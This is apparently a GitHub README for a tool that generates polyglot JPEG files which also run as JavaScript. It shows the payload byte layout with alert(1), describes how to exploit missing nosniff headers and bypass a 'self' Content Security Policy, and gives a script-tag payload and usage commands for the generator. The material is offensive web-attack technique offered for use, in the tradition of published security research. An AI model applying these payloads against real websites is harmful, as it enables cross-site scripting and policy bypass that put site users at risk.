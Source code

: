 # polyglot-xss-jpeg-generator

Generate polyglot xss jpeg with your customized height and width


## Concept

We can make a polyglot xss jpeg file according to the jpeg standard. 

Generally the file looks like:

```javascript
\xff\xd8\xff\xe0\t:JFIF/*
LOTS OF PADDING
*/=alert(1);/*
LOTS OF PADDING
*///\xff\xd9
```
![](img/JPG.png)

The concept is to take normal jpeg file as input and  replace the `start of image` segment with our payload.
Then add extra 4 bytes at the end of file.

Because our payload follows the file format above so it can be treated as normal jpeg file.

Note: Because we need to avoid the appearance of `*/` in the original file, `*/` will be replaced so the image seems broken(  Whatever

## Arbitary dimensions 

The height and width of jpeg file dimensions is stored in the `start of frame` segment. Just change the bytes.

## Exploits


* MIME type sniffing

Sometimes, website won't set `X-Content-Type-Options: nosniff`.
So browser will guess the correct MIME type by looking at the bytes of the resource.That allows our payload to be seen as valid javascript resource.

* CSP bypass

`default-src 'self';script-src 'self';` can only be bypassed when you have insite js resource or controllable endpoints like jsonp. You can use polyglot picture file or `.wave` file to bypass limit.

PAYLOAD:
`<script charset="ISO-8859-1" src="YOUR_OUTPUT_JPEG_PATH"></script>`


## Usage

```bash
polyglot_xss.py [--height HEIGHT] [--width WIDTH] input output payload
```

example
```powershell
python polyglot_xss.py C:\Users\JoeZhou\Desktop\shiroyasha.jpeg test\out --height 450 --width 450 alert(7331)
```

![](img/poc.png)

## References

https://portswigger.net/research/bypassing-csp-using-polyglot-jpegs

https://github.com/corkami/pics/blob/master/binary/JPG.png